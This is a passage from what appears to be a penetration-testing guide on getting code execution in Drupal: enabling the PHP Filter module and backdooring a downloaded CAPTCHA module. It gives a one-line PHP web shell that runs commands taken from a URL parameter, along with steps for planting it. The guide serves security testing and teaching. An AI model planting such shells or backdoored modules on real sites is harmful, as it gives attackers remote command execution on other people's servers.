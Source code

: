 Finally just access the newly created node:

```bash
curl http://drupal-site.local/node/3
```

## Install PHP Filter Module

{% hint style="warning" %}
In current versions i't no longer possible to install plugins by only having access to the web after the default installation.
{% endhint %}

From version **8 onwards, the** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module is not installed by default**. To leverage this functionality, we would have to **install the module ourselves**.

1. Download the most recent version of the module from the Drupal website.
   1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Once downloaded go to **`Administration`** > **`Reports`** > **`Available updates`**.
3. Click on **`Browse`**`,` select the file from the directory we downloaded it to, and then click **`Install`**.
4. Once the module is installed, we can click on **`Content`** and **create a new basic page**, similar to how we did in the Drupal 7 example. Again, be sure to **select `PHP code` from the `Text format` dropdown**.

## Backdoored Module

{% hint style="warning" %}
In current versions it's no longer possible to install plugins by only having access to the web after the default installation.
{% endhint %}

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.
